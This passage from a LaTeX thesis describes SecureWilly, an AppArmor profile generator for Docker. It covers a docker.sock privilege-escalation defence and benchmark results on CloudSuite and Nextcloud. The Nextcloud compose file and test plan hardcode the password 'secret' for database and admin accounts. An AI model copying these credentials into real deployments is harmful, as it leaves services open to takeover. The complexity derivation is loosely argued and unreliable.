In this case, the attacker container was created by the attacker himself and he could have run it as root from the beginning anyway. Yet, we chose to examine this approach because the attacker could apply the same trick to a random image which might be configured to run as non root user. Let's reverse the role of this container, and think about it as a regular container which was also attacked by the attacker.

In the creation of a Super-Privileged container example, in section \textit{Container Privilege Elevation: Docker Socket}, we mentioned that SecureWilly could not prevent the attack.  But this case is different because as you might have noticed the AppArmor profiles were not plain this time. So, we used reverse engineering once again to prevent this type of attack.

Running as root is difficult to fight, but when it comes to non root users who intend to be added to docker group, a login is required, in order to apply the group changes. And that's what SecureWilly will block. In order to block this attack, the AppArmor profile has to deny the capabilities setuid and setgid. But is it appropriate to block them for every single container? The answer is no. We just have to block them whenever there is a mount of docker.sock, which probably means that the user intends to use host's docker client. Indeed, it may concern an innocent action but SecureWilly's purpose is to guard the isolation and these capabilities combined with docker.sock could lead to a vulnerability and a risk we do not wish to take.

Thus, the profile that should have been used to defend the container (here we mean the attacker's container but in general this can be considered as any other image) in order to prevent the attack is the following:
\hfill\break
\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile socket\_attacker}]
#include <tunables/global>

profile socket_attacker flags=(attach_disconnected,mediate_deleted) {
       file, #This rule is needed so that I can work with files (create files/directories, copy, etc)
       signal,
       #Forbid attack to Host
       deny capability setuid,
       deny capability setgid,
}
\end{lstlisting}


In the reverse engineering phase, we added to the static part of SecureWilly a condition: \textbf{if mounting of docker.sock is encountered, then add a deny rule to each one of the capabilities setuid and setgid}.

\begin{mdframed}[backgroundcolor=tipcolor]
\textbf{Tip}: Another way to access the Docker Daemon is through the Docker-in-Docker image (dind). We did not examine this scenario because it needs flag --privileged in order to run and this would disable the security so we would not be able to do anything to prevent attacks using dind. It is an interesting feature to use though and we recommend to take a deeper look into it. \cite{dind}
\end{mdframed}

\section{Summary}
Containers have walls, even without AppArmor profiles, but you can go through them if you must. That's when our profile should take place as a second wall. SecureWilly assists building this wall by creating secure and efficient AppArmor profiles.

It is a fact that not all of the vulnerable features we discussed can be confronted. Right now, SecureWilly protects isolation against a specific group of attacks. It gets harder though when these features are combined, and the attack gets more complicated to confront. This is why it is recommended to bear in mind the best practices suggested by Docker \cite{dockerbestpr} and be cautious about using the vulnerable features we detailed above, when creating an image and running the container.

\chapter{Experimental Evaluation}

In this chapter, we assess the potential benefit of using SecureWilly in docker projects. Through a variety of experiments, we display the results of SecureWilly's execution, we examine the profiles produced and we evaluate the performance, the functionality and the scalability of our software.

\section{Experimental setup}
\subsection{Benchmarks}
SecureWilly has been tested on creating AppArmor profiles for a set of multi-service projects provided by CloudSuite, a benchmark suite for cloud services. \cite{cloudsuite} The benchmarks are based on real-world software stacks and represent real-world setups. 

\begin{description}[style=nextline]
\item[Media Streaming]
One of the benchmarks of Cloudsuite that was used in the experimental evaluation was media-streaming. This benchmark uses the Nginx web server as a streaming server for hosted videos of various lengths and qualities. The client, based on httperf's wsesslog session generator, generates a request mix for different videos, to stress the server. \cite{mediastr}

The benchmark has two tiers: the server and the clients. The server runs Nginx, and the clients send requests to stream videos from the server. Each tier has its own image which is identified by its tag.

The streaming server requires a video dataset to serve and a synthetic dataset is generated, comprising several videos of different lengths and qualities. A separate docker image that handles the dataset generation is provided, which is then used to launch a dataset container that exposes a volume containing the video dataset.

To facilitate the communication between the client(s) and the server, a docker network is built, and the launched containers were attached to it.

\item[Data-Caching]
Another benchmark of CloudSuite that was used in our experimental evaluation was data-caching. This benchmark uses the Memcached data caching server, simulating the behavior of a Twitter caching server using a twitter dataset. The metric of interest is throughput expressed as the number of requests served per second. The workload assumes strict quality of service guarantees. \cite{datacaching}

This benchmark features two tiers: the server(s), running Memcached, and the client(s), which request data cached on the Memcached servers. Each tier has its own image which is identified by its tag.

To facilitate the communication between the client(s) and the server, a docker network is built, and the launched containers were attached to it.
\end{description}

In the following instances, the benchmarks were executed, having one client and one server. SecureWilly produced one profile for each of the services of every benchmark.

\subsection{Nextcloud}

Despite the fact that CloudSuite's benchmarks are based on real-world software, we considered testing a real program, which is widely used and a lot of users rely on docker images in order to run it, and exercise it first-hand. Our choice was Nextcloud.

Nextcloud is a suite of client-server software for creating and using file hosting services. It is free and open-source, which means that anyone is allowed to install and operate it on their own private server devices. \cite{wikinext}

Although it is true that Nextcloud offers a variety of operations (file sharing, communication etc), we will be using it in its simplest form, where Nextcloud is used to run a personal cloud storage service, making files accessible via the internet and sharing them with other users.

The services of Nextcloud's project in the particular example are two:
\begin{enumerate}
\item \textbf{db}, which is actually the database used for data storage - in our case, we chose a MySQL/MariaDB database
\item \textbf{nextcloud}, which is the server of this docker project
\end{enumerate}

The docker-compose file which was used as input to SecureWilly's UI is the following (options security\_opt and container name were added by SecureWilly):

\begin{lstlisting}[style=Dockerfile, caption={Nextcloud's docker-compose.yml}]
version: '3'

volumes:
     nextcloud_:
     db_:

services:
     db:
        container_name: db
        security_opt:
          - "apparmor:db_profile"
        image: mariadb:10
        command: --transaction-isolation=READ-COMMITTED --binlog-format=ROW
        restart: always
        volumes:
                - db_:/var/lib/mysql
        environment:
                - MYSQL_ROOT_PASSWORD=secret
                - MYSQL_PASSWORD=secret
                - MYSQL_DATABASE=nextcloud_
                - MYSQL_USER=willy
     nextcloud:
        container_name: nextcloud
        security_opt:
          - "apparmor:nextcloud_profile"
        image: nextcloud
        ports:
                - 8080:80
        links:
                - db
        volumes:
                - nextcloud_:/var/www/html
                - /home/ubuntu/SecureWilly/Nextcloud/data:
					/var/www/html/data
        environment:
                - NEXTCLOUD_ADMIN_USER=willy
                - NEXTCLOUD_ADMIN_PASSWORD=secret
                - NEXTCLOUD_TABLE_PREFIX=nc_
                - NEXTCLOUD_DATA_DIR=/var/www/html/data
        restart: always
\end{lstlisting}

The Nextcloud installation and all data beyond what lives in the database (file uploads, etc) is stored in the docker volume /var/www/html. The docker daemon will store that data within the docker directory /var/lib/docker/volumes/. This keeps data persistent, meaning it is saved even if the container crashes, is stopped or deleted.

The volumes used in the yml file are the following:
\begin{itemize}
\item /var/www/html: Main folder, needed for updating
\item /var/www/html/data: The actual data of your Nextcloud
\item /var/lib/mysql: Database's volume
\end{itemize}

The test plan, which we provided as input, was minimal as it included some configuration commands for nextcloud's server and uploading a file to the cloud storage:

\begin{lstlisting}[style=bashscript, caption={Test plan used in Nextcloud's project}]
#Clear data directory if it exists and chown it to www-data, as configured in Nextcloud
sudo rm -r /home/ubuntu/SecureWilly/Nextcloud/data
mkdir /home/ubuntu/SecureWilly/Nextcloud/data
sudo chown www-data:www-data /home/ubuntu/SecureWilly/Nextcloud/data

#Start the containers
docker-compose up -d

#Wait some time for the database to be configured
sleep 60

#Check server's status
docker exec -u www-data nextcloud php occ status > answer
answer=$(cat answer | grep 'Nextcloud is not installed')
while [ -z "$answer" ]
do
        rm answer
        docker exec -u www-data nextcloud php occ status > answer
        answer=$(cat answer | grep 'Nextcloud is not installed')
done
rm answer

#Configure nextcloud, when the server is up
docker exec -u www-data nextcloud php occ maintenance:install --database "mysql" --database-name "nextcloud_" --database-host "db" --database-user "willy" --database-pass "secret" --admin-user "willy" --admin-pass "secret"

#Create a file in local data directory
sudo touch /home/ubuntu/SecureWilly/Nextcloud/data/willy/files/HelloFromTheOtherSide

#Use occ files:scan to make it visible to the web interface
docker exec -u www-data nextcloud php occ files:scan --all

#Stop the containers when you're finished
docker kill nextcloud
docker kill db
\end{lstlisting}

\section{Performance}

\underline{Computational complexity}
\hfill\break

In order to evaluate the performance of SecureWilly, we will first find out its computational complexity.

\begin{itemize}
\item First, it is clear that the computational complexity of static analysis is $\mathcal{O}(1)$, because all the operations are about text editing on the input files.
\item Dynamic analysis depends on the computational complexity of the given test plan, which will be repeated $m$ times.

\item Suppose that the computational complexity of the test plan is $f(n)$.

\item As for the computational complexity of the process to set the AppArmor profile in complain or enforce mode, it is represented by a constant $c$, as it takes standard time.

\item Thus, the computational complexity of dynamic analysis is $m*f(n) + c$.

\item The computational complexity of SecureWilly on the whole is

$T(n) = \mathcal{O}(1) + m*f(n) + c \Rightarrow T(n) = m*f(n) + d \Rightarrow T(n) = m*f(n) \Rightarrow T(n) = f(n)$

\end{itemize}

It becomes evident, that the performance of SecureWilly over each benchmark cannot be evaluated using the execution time of SecureWilly, as every test plan has different computational complexity.

Therefore, we approached the performance evaluation by monitoring the amount of runs of each test plan, not by the whole time it took SecureWilly to produce the profiles.

\hfill\break
\underline{Rules per run}
\hfill\break

In Figure 5.1, a line graph illustrates the amount of rules of each service's profile over the test plan runs, referring to media streaming benchmark.

\begin{figure}[h!]
  \centering
   \includegraphics[width=0.70\linewidth]{../figures/mediastreaming/rulesthreshold.png}
   \caption{Media Streaming: Rules per run for each service}
\end{figure}

All of the services start with non-zero amount of rules, which derives from static analysis's preliminary profiles.

We observe that most of the services had a gradual increase in their AppArmor profiles' rules, except for dataset, which starts with a preliminary profile of three rules and remains stable for the rest of the runs. This behaviour of dataset's profile is expected as the corresponding container does not execute any operations, but it only exists in order to expose a volume.

Server's and client's profiles follow a similar escalation, as they both rise to a point and then stabilize over the last runs. The rising derives from the first complain runs, in which rules are extracted gradually, as the addition of some rules leads to new system logs. While the first runs are crucial, as the most part of the rules are extracted over the first runs, the logs become gradually fewer over the last runs until all actions are allowed, and this explains the final stability of the profiles after some runs, as shown in the graph.

Server's shoot up is more enduring and considerable than the client's. This is reasonable, since a server is expected to be responsible for more operations than a client.  

It appears that there is a threshold in runs, which represents the minimum number of runs which have to be executed, until all of the project's profiles stabilize over runs. The threshold for media streaming, as shown in the graph, is at run three. After the threshold, it takes three runs for SecureWilly to finish its execution.

\begin{figure}[h!]
  \centering
   \includegraphics[width=0.70\linewidth]{../figures/datacaching/rulesthreshold.png}
   \caption{Data Caching: Rules per run for each service}
\end{figure}

Figure 5.2 shows the corresponding line graph of data caching benchmark.

Similar to media streaming, both server and client lift to a point and afterwards they remain stable. The threshold we observed before, is at the third run again. Moreover, in this benchmark, server and client traverse the threshold exactly at the same runs.

On the contrary, data caching seems to have more active clients, as client's profile has more rules.

In Figure 5.3, the graph outlines the behaviour of nextcloud's profiles over runs. The threshold in nextcloud's execution is at run four. This slight difference with CloudSuite's benchmarks is reasonable, as nextcloud's server appears to need more rules in its profile, in order to complete its operations. Thus, SecureWilly needs to execute more runs of the test plan in order to extract all the rules necessary.

Nextcloud's server and database service traverse the threshold almost at the same run, and their escalation is quite similar. Server's service though requires more rules in its profile, as it commits more actions, comparing to the database.

\begin{figure}[h!]
  \centering
   \includegraphics[width=0.75\linewidth]{../figures/nextcloud/rulesthreshold.png}
   \caption{Nextcloud: Rules per run for each service}
\end{figure}
\hfill\break

The bar chart, in figure 5.4, depicts the performance of SecureWilly on every project, by diplaying the amount of runs of the test plan and the run that consistutes the last augmentation in services' profiles, given by the value of threshold.

\begin{figure}[h!]
  \centering
   
\includegraphics[width=1\linewidth]{../figures/compare.png}
   \caption{Comparing total runs and threshold between projects run by SecureWilly}
\end{figure}

It becomes evident, that the performance of SecureWilly on each project depends on the complexity of the project and the amount of operations that the test plan executes, which will lead to the amount of runs it needs, until it reaches its threshold. The threshold is set also based on the complexity of the project.

\hfill\break
\underline{Time of test plan per run}
\hfill\break

As described above, comparing the execution time between different projects run by SecureWilly is meaningless. The only essential way to observe time would be monitoring the time execution of test plan over runs.

Figures 5.5, 5.6 and 5.7 represent the line graphs of each project, which illustrate the execution time of the test plan over runs executed by SecureWilly.

The execution time was captured by executing the time command on the run script of dynamic parser. To calculate the execution time, we used the sum of sys and usr time, which shows the actual CPU time that docker containers' processes used.

\begin{figure}[h!]
  \centering
   \includegraphics[width=0.70\linewidth]{../figures/mediastreaming/time.png}
   \caption{Media Streaming: Time of test plan per run}
\end{figure}

\begin{figure}[h!]
  \centering
   \includegraphics[width=0.70\linewidth]{../figures/datacaching/time.png}
   \caption{Data Caching: Time of test plan per run}
\end{figure}

\begin{figure}[h!]
  \centering
   \includegraphics[width=0.75\linewidth]{../figures/nextcloud/time.png}
   \caption{Nextcloud: Time of test plan per run}
\end{figure}
\hfill\break

All of the projects in their time graphs reach a peak at the first or second run and then they all follow a downward trend, each one at its own rate. However, the fall in all cases is smooth.

The reason why the first runs of the test plan take more time, is not relevant to SecureWilly, but it derives from the time it takes to pull the images from DockerHub in the first run, as well as memory caching on data. Similarly, the rate of the fall that comes after the highest point depends on the usage of data and volumes in services and if they remain in cache memory.

It follows that the test plan is not affected by the AppArmor profiles, either they are set to complain or enforce mode. This behaviour was expected, since in the computational complexity, the AppArmor profile addition was represented by a constant.

\section{Functionality}
\underline{Enforce mode}
\hfill\break

Testing SecureWilly's functionality is actually equal to testing the input docker project, with the profiles produced set to enforce mode and evaluate if the actions described in the test plan are allowed.

The profiles produced by SecureWilly rely completely on the test plan that the user gives as input, as there is no other way to predict what actions should be allowed.  

SecureWilly performs a functionality testing inside the dynamic parser's loop, by enforcing the profiles after there are no more logs in the complain mode, and runs the test plan one more time. If there are still system logs denying actions of the test plan and new rules can be extracted from them, then SecureWilly repeats the complain mode procedure from the beginning. In this way, it ensures that all actions specified in the test plan are allowed.

Figures 5.8, 5.9 and 5.10 show each project's line graphs per service, which illustrate again the amount of rules per run, but this time emphasizing whether each run sets the profiles to complain or enforce mode.

In all docker projects, only one run of enforce mode was performed and the fact that no system logs denying actions were produced means that the test plan was executed successfully, with all of its operations allowed.

\hfill\break

\begin{figure}[h!]
  \centering
   \includegraphics[width=0.8\linewidth]{../figures/mediastreaming/complain_enforce_rules.png}
   \caption{Media Streaming: Rules per run, emphasizing complain/enforce mode}
\end{figure}

\hfill\break

\begin{figure}[h!]
  \centering
   \includegraphics[width=0.75\linewidth]{../figures/datacaching/complain_enforce_rules.png}
   \caption{Data Caching: Rules per run, emphasizing complain/enforce mode}
\end{figure}

\begin{figure}[h!]
  \centering
   \includegraphics[width=0.75\linewidth]{../figures/nextcloud/complain_enforce_rules.png}
   \caption{Nextcloud: Rules per run, emphasizing complain/enforce mode}
\end{figure}
\hfill\break
\hfill\break
\underline{Types of rules}
\hfill\break

Another way to test the functionality of SecureWilly is to monitor the rules of each profile, identify which types of rules are encountered in it and make sure they correspond to the role and operations of each service.

\begin{textblock*}{18cm}(0.1cm,7cm) % {block width} (coords)
\begin{figure}
  \begin{minipage}[H!]{0.5\textwidth}
    
\includegraphics[width=\textwidth]{../figures/mediastreaming/nolegend/types_cloudsuitemedia-streamingserver.png}
    \caption{Media Streaming: Server types}
  \end{minipage}
  \begin{minipage}[H!]{0.5\textwidth}
    
\includegraphics[width=\textwidth]{../figures/mediastreaming/nolegend/types_cloudsuitemedia-streamingclient.png}
    \caption{Media Streaming: Client types}
  \end{minipage}
\end{figure}
\end{textblock*}

\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.7\linewidth]{../figures/mediastreaming/types_cloudsuitemedia-streamingdataset.png}
   \caption{Media Streaming: Dataset types}
\end{figure}

Figures 5.11, 5.12 and 5.13 show the line graphs of the types of different rules used in the media streaming services' profiles over runs. 

The above graphs show that each profile describes perfectly the role of the service and the operations of its task.

In server's profile, the graph shows that a server has more capability rules than other types. This derives from the fact that a server commits several actions in order to serve the clients, and thus it is expected to need some capabilities. It is evident now that capabilities are the type of rules that most of the times set the threshold, as they appear to escalate gradually on each run. The file rules can derive from file accesses the server needs, but not from volumes since there are no mount rules extracted. Network rules are extracted for the internal communication of the services and lastly, there is one signal rule, which is needed in order to send a SEGKILL/SIGTERM to the server, since it is running as a daemon.

In client's profile, it appears that client handles some volumes, since there are mount rules and the corresponding file rules. File rules are more, because the preliminary profile's rules are added to them. Moreover, client also needs some network rules in order to communicate with the server.

As it is expeted, dataset only needs some file rules which are the ones of the preliminary profile, as its container will not commit any actions.

In figures 5.14 and 5.15 we observe how server and client act in data caching example. 

It appears that plenty of network and file rules are included in server's profile, since network is needed in order to communicate with client and file rules derive from the fact that server in data caching benchmark handles a twitter dataset. Apart from these types, it needs only one signal rule in order to be able to terminate.

As for the client, network rules are needed in order to make requests to the server while the rest of the rules are all relevant to the way we implemented this example. Mount and file rules derive both from the volume script we used in order to run this benchmark non-interactively, while all the signal rules derive from the timeout and kill signals - either sent by the client or received by one of its process - which were used to stop all processes of clients when the benchmarking was complete.

Lastly, figures 5.16 and 5.17 represent Nextloud's line graphs, one for the database service and one for the server - nextcloud.

In these graphs, it is more clear than ever that Nextcloud is the most complex of the examples used, as its profiles consist of a variety of rules. 

Starting with nextcloud service, capability rules, which is the type with the most rules in the profile, escalate gradually per run and they are responsible for setting the threshold at run four, exactly like we observed in media streaming. This is reasonable, since Nextcloud's server requires several capabilities in order to connect to the database and serve all of its users.  File and mount rules are added by static analysis, deriving from the volumes mounted which we described in nextcloud's section, and remain stable for the rest of the runs. Some network rules are needed, like in almost every multi-service project, in order to communicate with the database, as well as some signal rules in order to make the server capable of getting terminated, rather than becoming a zombie container process.

Database's service needs some capability rules as well, fewer than the server though. It needs some signal rules in order to be able to handle termination signals, sent and received, as well as some network rules that constitute the communication with the server possible. However, the profile mainly consists of mount and file rules, due to the volumes it handles and the file accesses it needs to make, which is a fundamental characteristic of a database.
 
\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.65\linewidth]{../figures/datacaching/types_cloudsuitedata-cachingserver.png}
   \caption{Data Caching: Server types}
\end{figure}

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.65\linewidth]{../figures/datacaching/types_cloudsuitedata-cachingclient.png}
   \caption{Data Caching: Client types}
\end{figure}

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.68\linewidth]{../figures/nextcloud/types_nextcloud.png}
   \caption{Nextcloud: Nextcloud types}
\end{figure}

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.68\linewidth]{../figures/nextcloud/types_db.png}
   \caption{Nextcloud: Db types}
\end{figure}
In the light of the above, it is clear that the AppArmor profiles that are produced by SecureWilly are adjusted completely to the docker project and are closely tied with their tasks. This means they are efficient and secure, since they allow any docker project to run unhinderedly, but all redundant actions will be blocked.\\

\section{Scalability}
SecureWilly should be able to handle large increases in services and other workloads. 

In order to evaluate scalability we perfomed a testing using media streaming benchmark with multiple clients.

Figure 5.18 illustrates a line graph which shows the execution time of test plan per run for each test case. As it is expected, time has a steady increase, accordingly with the augmentation of the amount of clients.

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.8\linewidth]{../figures/scalability/time1_4_8_16.png}
   \caption{Media Streaming: Time of test plan per run for each test case}
\end{figure}

However, as we previously described, the correct way to measure the performance per case is not time but runs.

In figures 5.19 and 5.20, the line graphs representing rules per run for the test cases of 4 and 8 clients (the figure about the 16 clients test case was left out, because the line graphs were identical) respectively, show that the amount of total runs executed is not affected at all by the increase in the amount of clients and neither does the threshold. Moreover, since clients are running the same docker run command, their lines follow exactly the same trend.

Therefore, it has been proved that SecureWilly can handle large scale projects and its task is not affected in any way by them.

\begin{figure}[h!]
  \centering
